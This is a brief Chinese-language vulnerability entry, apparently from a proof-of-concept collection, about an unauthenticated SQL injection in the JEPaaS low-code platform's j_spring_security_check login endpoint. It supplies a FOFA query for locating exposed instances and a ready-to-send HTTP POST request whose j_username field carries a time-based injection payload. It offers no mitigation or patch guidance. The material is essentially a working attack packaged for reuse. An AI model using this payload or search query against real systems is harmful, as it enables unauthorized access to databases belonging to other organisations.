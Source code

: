 ## JEPaaS低代码平台j_spring_security_check存在SQL注入漏洞

JEPaaS低代码平台j_spring_security_check存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用SQL注入漏洞获取数据库中的信息。

## fofa

```
body="/saas/saasYhAction!sendRandom.action"
```
![image](https://github.com/user-attachments/assets/090e2cd7-ce80-40d1-8826-f5c3c5a380eb)

## poc

```
POST /j_spring_security_check HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
j_username=');DECLARE @x CHAR(9);SET @x=0x303a303a35;WAITFOR DELAY @x--
```
